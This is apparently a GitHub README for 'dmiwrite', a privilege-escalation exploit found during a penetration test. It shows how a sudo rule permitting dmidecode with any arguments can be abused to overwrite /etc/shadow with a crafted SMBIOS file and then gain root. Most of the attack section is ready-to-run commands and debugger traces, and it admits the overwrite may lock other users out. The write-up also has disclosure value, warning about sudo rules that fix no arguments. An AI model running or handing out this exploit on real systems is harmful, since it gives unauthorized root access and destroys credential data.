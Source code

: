 # Privilege escalation using dmidecode

## Background

One of the most basic privilege escalation strategies is to look for dangerous
sudo configurations. The ability of programs such as vim to execute arbitrary
commands is well known. Wildcards can lend seemingly innocuous commands a
surprising amount of power. Even more dangerous are commands without set
arguments: it is not always remembered that this means the command can be run
with any arguments the user specifies. The capabilities of such commands to
execute other programs, or to read and write sensitive files, must be carefully
investigated.

## Scenario

On a recent engagement, I observed the following sudo configuration:
```
testuser@testhost:~ $ sudo -l

User testuser may run the following commands on testhost:
    (ALL) NOPASSWD: /usr/sbin/dmidecode
```

dmidecode is a utility for reading system hardware information in the
SMBIOS format: a standard maintained by the Distributed Management Task
Force.  https://www.nongnu.org/dmidecode/ is the implementation present
in most Linux distributions, including Debian and Red Hat, and was the
focus of this investigation.

```
testuser@testhost:~ $ /usr/sbin/dmidecode -h
Usage: dmidecode [OPTIONS]
Options are:
 -d, --dev-mem FILE     Read memory from device FILE (default: /dev/mem)
 -h, --help             Display this help text and exit
 -q, --quiet            Less verbose output
 -s, --string KEYWORD   Only display the value of the given DMI string
 -t, --type TYPE        Only display the entries of given type
 -u, --dump             Do not decode the entries
     --dump-bin FILE    Dump the DMI data to a binary file
     --from-dump FILE   Read the DMI data from a binary file
     --no-sysfs         Do not attempt to read DMI data from sysfs files
     --oem-string N     Only display the value of the given OEM string
 -V, --version          Display the version and exit
```

It should be apparent that dmidecode has some powerful I/O capabilities:
note the `--dev-mem` and `--dump-bin` options. By passing a carefully
constructed SMBIOS file as a memory device, we can cause dmidecode to
write nearly arbitrary output to `--dump-bin`.

## Exploit

`dmiwrite` will wrap an input payload in an SMBIOS file that can be read as a
memory device by dmidecode. `--dump-bin` will then cause dmidecode to write the
payload to the destination specified, prepended with 32 null bytes.  These do
not prevent privilege escalation.

## Privilege escalation

We will overwrite `/etc/shadow` with a copy containing a known root
password hash. We can then `su` to root. Of course, this may lock other
users out of the system. In the engagement where I employed this, I used
a separate file read vulnerability to first obtain /etc/shadow, which I
used as a template. If your situation is not so fortunate, you may be
able to restore /etc/shadow from a backup after escalating to root.

```
make dmiwrite
./dmiwrite trojan_shadow.in evil.dmi
```

Copy `evil.dmi` to the target, then:

```
sudo dmidecode --no-sysfs -d evil.dmi --dump-bin /etc/shadow
```

`trojan_shadow.in` should begin with a newline to prevent the null bytes from
interfering with the first entry.

If the target system is using an older version of dmidecode, you may
need to omit the --no-sysfs option.

## Technical details

Format is 32-bit SMBIOS 2.1.

dmidecode stack trace just prior to file write:

```
#0  write_dump (base=0x20, len=, data=, dumpfile= "/etc/shadow", add=0x0) at util.c:254
#1  dmi_table_dump (buf= "\nroot:", len=) at dmidecode.c:4607
#2  dmi_table (base=0x0, len=, num=0x1, ver=0x20100) at dmidecode.c:4778
#3  smbios_decode (buf= "_SM_", devmem= "evil.dmi", flags=0x1) at dmidecode.c:4887
#4  main (argc=, argv=) at dmidecode.c:5107
```

The 32 byte offset in write_dump is hardcoded space for the SMBIOS entry point
structure and results in an fseek in the dump file to that offset.  This
appears to be unavoidable, but by specifying an entry point length of zero, we
can prevent the second call to write_dump, below, from actually writing out the
entry point structure, filling it with nulls instead.

```
#0  write_dump (base=0x0, len=0x0, data=, dumpfile= "/etc/shadow", add=0x1) at util.c:254
#1  smbios_decode (buf= "_SM_", devmem= "evil.dmi", flags=0x0) at dmidecode.c:4900
#2  main (argc=, argv=) at dmidecode.c:5107
```
